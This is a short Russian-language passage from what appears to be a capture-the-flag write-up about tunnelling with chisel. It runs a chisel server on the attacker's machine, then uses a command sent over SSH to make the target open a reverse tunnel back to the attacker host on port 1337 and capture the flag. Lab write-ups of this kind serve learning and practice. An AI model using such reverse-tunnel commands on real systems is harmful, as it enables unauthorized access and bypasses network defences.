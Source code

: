 Устанавливаем chisel и запуска сервер на своей машине
```
./chisel_1.10.1_linux_amd64 server --port 8000
```
Отправляем запрос на атакуемую машину чтобы запустить клиента
```
ssh -p 2222 user@10.10.0.40 -- client 100.100.2.252:8000 1337:0.0.0.0:1337 
```
Запускаем слушателя на 1337 порт и получаем флаг